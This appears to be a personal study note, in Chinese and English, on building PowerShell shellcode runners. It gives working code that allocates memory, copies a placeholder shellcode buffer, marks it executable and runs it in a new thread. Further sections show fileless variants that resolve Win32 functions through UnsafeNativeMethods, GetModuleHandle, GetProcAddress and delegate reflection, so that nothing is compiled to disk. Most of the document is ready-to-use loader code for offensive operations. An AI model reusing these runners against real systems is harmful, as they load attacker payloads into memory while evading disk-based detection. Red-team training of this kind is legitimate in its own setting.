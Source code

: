 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)
## Keep PowerShell in Memory
- Add-Type 關鍵字讓我們可以使用 .NET 框架來編譯 C# 包含 Win32 API 定義的呼叫的程式碼。
- 編譯過程是由 Visual C# 編譯器執行，但這樣的行為，C#程式碼和編譯後的暫存將會寫入硬碟中，就沒有達到無檔案的方式。
- 為了讓程式碼持續留存在記憶體中而不被寫入硬碟，必須改用UnsafeNativeMethods尋找已存在的函式直接調用
- 利用兩種函式**GetModuleHandle、GetProcAddress**尋找存在於 Win API 中的其他函式。
### Enumerate UnsafeNativeMethods Function
```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() 
$Assemblies | 
	ForEach-Object {
	 $_.GetTypes() | 
	ForEach-Object { 
		$_ | Get-Member -Static| Where-Object {	   $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
	}
          } 2> $null 
}
```
### Enumerate UnsafeNativeMethods DLL Path
```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() 
$Assemblies |
 	ForEach-Object {
	 $_.Location
	 $_.GetTypes()|
		 ForEach-Object {
		 $_ | Get-Member -Static| Where-Object { 
$_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
	 }
		 } 2> $null
 } 
```
### Invoke GetModuleHandle from System.dll
```
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And _.Location.Split('\\')[-1].Equals('System.dll') })
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$GetModuleHandle.Invoke($null, @("user32.dll")) 
```
- ![圖片2](https://user-images.githubusercontent.com/81568292/137424843-940c88b8-25b9-4e02-a950-4731d4e8895b.png)
### Invoke GetProcAddress from System.dll
```
$unsafeObj.GetMethods() | ForEachObject {If($_.Name -eq "GetProcAddress") {$_}}
```
- ![image](https://user-images.githubusercontent.com/81568292/137425483-e7e38c40-9864-420f-9bb4-d2b9327b78e6.png)
### Get MessageBoxA
```
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }) 
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods') 
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle') 
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll")) 
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}} 
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```
### Dynamic Lookup Function
```
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1]. Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    
    return $tmp[0].Invoke($null,@(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}
```
- $MessageBoxA = LookupFunc user32.dll MessageBoxA
## Reflection Shellcode Runner in PowerShell
### Delegate Type Reflection 
```
$MyAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')

$Domain = [AppDomain]::CurrentDomain

$MyAssemblyBuilder = $Domain.DefineDynamicAssembly($MyAssembly,[System.Reflection.Emit.AssemblyBuilderAccess]::Run)

$MyModuleBuilder = $MyAssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)

$MyTypeBuilder = $MyModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])

$MyConstructorBuilder = $MyTypeBuilder.DefineConstructor( 'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, @([IntPtr], [String], [String], [int]))

$MyConstructorBuilder.SetImplementationFlags('Runtime, Managed')

$MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual', [int], @([IntPtr], [String], [String], [int]))

$MyMethodBuilder.SetImplementationFlags('Runtime, Managed')

$MyDelegateType = $MyTypeBuilder.CreateType()

$MyFunction = [System.Runtime.InteropServices.Marshal]:: GetDelegateForFunctionPointer($MessageBoxA, $MyDelegateType)

$MyFunction.Invoke([IntPtr]::Zero,"Hello World","This is My MessageBox",0)











```
